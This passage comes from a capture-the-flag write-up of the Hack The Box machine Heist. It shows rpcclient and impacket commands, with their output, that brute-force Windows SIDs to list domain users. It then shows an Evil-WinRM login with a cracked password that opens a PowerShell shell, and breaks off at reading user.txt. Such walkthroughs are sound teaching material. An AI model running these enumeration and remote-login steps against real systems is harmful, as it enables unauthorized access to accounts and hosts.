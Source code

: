 
I’ll start at 1000 and work up to 1050, using `grep` to remove the unknowns:

    
    
    root@kali# for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
    S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
    S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
    S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
    S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
    

There’s also an impacket tool, `lookupsids.py`, which does this faster and
cleaner:

    
    
    root@kali# lookupsid.py hazard:stealth1agent@10.10.10.149
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    
    [*] Brute forcing SIDs at 10.10.10.149
    [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)
    

## Shell as chase

### Manually

When I originally solved Heist, I took these new user names and my list of
passwords, and I used [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
to try connecting as each with different passwords. When I got to chase /
‘Q4)sJu\Y8qz*A3?d’, it connected:

    
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'
    
    Info: Starting Evil-WinRM shell v1.6
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Chase\Documents>
    

Note, with `evil-winrm`, I give it a scripts directory and an exes directory.

And I can grab `user.txt`:
